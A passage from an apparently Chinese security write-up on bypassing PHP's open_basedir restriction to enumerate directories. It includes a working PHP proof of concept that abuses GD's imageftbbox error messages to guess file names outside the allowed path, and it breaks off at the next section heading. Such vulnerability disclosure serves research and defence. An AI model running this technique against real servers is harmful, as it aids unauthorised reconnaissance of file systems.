 只是把之前的POC稍作修改，同样列出了D:/test下的文件：

![enter image description here](http://drops.javaweb.org/uploads/images/6273e077da60b5a78be3171f42865703373c6922.jpg)

这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。

0x05 GD库imageftbbox/imagefttext列举目录
===================================

* * *

GD库一般是PHP必备的扩展库之一，所以我在寻找open_basedir的时候也会看看这些有用的扩展库。

这是新方法：[WooYun: php设计缺陷导致绕过open_basedir列举目录之3](http://www.wooyun.org/bugs/wooyun-2014-083688)

我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

我也修改了个简单的POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>

```

同样列举一下d:/test

![enter image description here](http://drops.javaweb.org/uploads/images/ea19ae77f1a42de241da9b4b456b698344601ad9.jpg)

如上图，我们发现虽然“通配符”在判断是否存在的时候奏效了，但我们真正的文件名并没有显示出来，而是还是以通配符“<><”代替。

所以，这个方法报错的时候并不会把真正的路径爆出来，这也是其与realpath的最大不同之处。所以，我们只能一位一位地猜测，但总体来说，还是能够猜测出来的，只不过可能比realpath更麻烦一些罢了。

0x06 bindtextdomain暴力猜解目录
=========================
